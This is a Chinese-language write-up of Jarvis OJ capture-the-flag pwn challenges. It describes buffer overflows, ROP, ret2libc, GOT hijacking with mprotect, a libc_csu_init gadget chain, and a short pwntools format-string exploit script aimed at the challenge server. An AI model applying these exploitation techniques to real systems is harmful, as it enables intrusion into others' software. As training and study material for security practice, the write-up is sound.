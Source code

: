 # Jarvis OJ - Write Up

> 目錄:
> * [smashes](#smashes)
> * [tell_me_something](#tell_me_something)
> * [xman_level0](#xman_level0)
> * [xman_level1](#xman_level1)
> * [xman_level2](#xman_level2)
> * [xman_level2_x64](#xman_level2_x64)
> * [xman_level3](#xman_level3)
> * [xman_level3_x64](#xman_level3_x64)
> * [xman_level4](#xman_level4)
> * [xman_level5](#xman_level5)
> * [xman_level6](#xman_level6)
> * [xman_level6_x64](#xman_level6_x64)
> * [61dctf_fm](#61dctf_fm)
> * [guess](#guess)

smashes
---

這題有 Canary 但找不到繞過的方式，但透過 ida pro 可以看到 flag 直接放在程式裡面

那可以透過 SSP leak 的方式，蓋 flag 的位置到 argv[0] 來印出

但可以看到在觸發 canary 保護機制前，他會把放 flag 的地方清掉

但這題有 ELF remapping ，可以在其他位置上找到 flag 的地址


tell_me_something
---

可以看到程式裡面有 good_game() 這個函數，會印出 flag

所以就是 buffer overflow 後跳函數即可

xman_level0
---

同 Tell me Something ， overflow 後跳函數即可

xman_level1 
---

沒有開任何保護，直接將 shellcode 塞到 buf 後跳過去即可

xman_level2
---

/bin/sh 和 system@plt 都可以直接在程式上找到

直接構造 rop 即可

xman_level2_x64
---

/bin/sh 和 system@plt 都可以直接在程式上找到

直接構造 rop 即可

xman_level3
---

利用 write 來 leak base address 後，算出 system 和 /bin/sh 

之後 ROP

xman_level3_x64
---

這題沒有給 system 

但有給 libc 

然後程式裡面也可以找到 sh

所以就是ret2libc ，用 write leak base address

之後算出 system 後執行 system(“sh”)

===
主要有一個問題是，找不到 rdx 的 gadget ，但看調適可以知道他的值會很大


xman_level4
---

這題和前面的差別在，沒有給 libc ，所以可以使用 DynELF

或者 ret2dlresolve 之類的

xman_level5
---
> Description:
>
> mmap和mprotect练习，假设system和execve函数被禁用，请尝试使用mmap和mprotect完成本题。

網路上好像都是用 mprotect ，所以這邊也是參考別人的來做，紀錄一下...

第一個 payload 流程:
1. write(1, write@got, ...) 用來 leak base 來算 mprotect
2. read(0, libc_start_main@got, ...) GOT hijack ，蓋為 mprotect
3. read(0, bss, ...) 放 shellcode
4. read(0, gmon_start@got, ...) GOT hijack ，蓋為 bss
5. 返回 main ，準備第二個 payload

構造第二個payload 中，因為找沒有 pop rdx 這個 gadget ，

所以使用 libc_csu_init 這個萬能 gadget

```
0000000000400650 <__libc_csu_init>:
  400650:       41 57                   push   r15
  400652:       41 89 ff                mov    r15d,edi
  400655:       41 56                   push   r14
  400657:       49 89 f6                mov    r14,rsi
  40065a:       41 55                   push   r13
  40065c:       49 89 d5                mov    r13,rdx
  40065f:       41 54                   push   r12
  400661:       4c 8d 25 d8 01 20 00    lea    r12,[rip+0x2001d8]        # 600840 <__frame_dummy_init_array_entry>
  400668:       55                      push   rbp
  400669:       48 8d 2d d8 01 20 00    lea    rbp,[rip+0x2001d8]        # 600848 <__init_array_end>
  400670:       53                      push   rbx
  400671:       4c 29 e5                sub    rbp,r12
  400674:       31 db                   xor    ebx,ebx
  400676:       48 c1 fd 03             sar    rbp,0x3
  40067a:       48 83 ec 08             sub    rsp,0x8
  40067e:       e8 fd fd ff ff          call   400480 <_init>
  400683:       48 85 ed                test   rbp,rbp
  400686:       74 1e                   je     4006a6 <__libc_csu_init+0x56>
  400688:       0f 1f 84 00 00 00 00    nop    DWORD PTR [rax+rax*1+0x0]
  40068f:       00
  400690:       4c 89 ea                mov    rdx,r13
  400693:       4c 89 f6                mov    rsi,r14
  400696:       44 89 ff                mov    edi,r15d
  400699:       41 ff 14 dc             call   QWORD PTR [r12+rbx*8]
  40069d:       48 83 c3 01             add    rbx,0x1
  4006a1:       48 39 eb                cmp    rbx,rbp
  4006a4:       75 ea                   jne    400690 <__libc_csu_init+0x40>
  4006a6:       48 83 c4 08             add    rsp,0x8
  4006aa:       5b                      pop    rbx
  4006ab:       5d                      pop    rbp
  4006ac:       41 5c                   pop    r12
  4006ae:       41 5d                   pop    r13
  4006b0:       41 5e                   pop    r14
  4006b2:       41 5f                   pop    r15
  4006b4:       c3                      ret

```

第二個 payload 流程:
1. 先跳到 0x4006a6 ，這邊設定 rbx和rbp 要注意 0x40069d 那兩行，等等會跳到那
2. rbx = 0, rbp = 1
3. ret 那邊要蓋為 0x400690，第一次是 call mprotect 來設 bss 為 rwx
4. 所以我們可以知道 rdx = r13, rsi = r14, rdi = edi = r15, r12 = 要跳的位址 = mprotect
5. 第二次要跳 shellcode，這樣就可以 get shell


本地測試正常，不知道為啥丟遠端會有問題，感覺是網路延遲= =...
[參考](http://veritas501.space/2017/03/10/JarvisOJ_WP/)


xman_level6
---

漏洞:
1. del_note: 沒有將 free 的設為 Null

xman_level6_x64
---


61dctf_fm
---

這題是基本的 format string vuln

漏洞是 `printf(buf);`

然後只要把 x 從 3 改為 4 即可 

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
#r = process('/tmp/p/a')
r = remote('pwn2.jarvisoj.com',9895)
x = 0x0804a02c
r.sendline(p32(x) + "%11$hhn")
r.interactive()
```


guess
---

直接丟 ida pro ，可以知道他會開 socket 在本地 port: 9999

然後主要程式在 handle() 裡面，輸入長度要求是 100



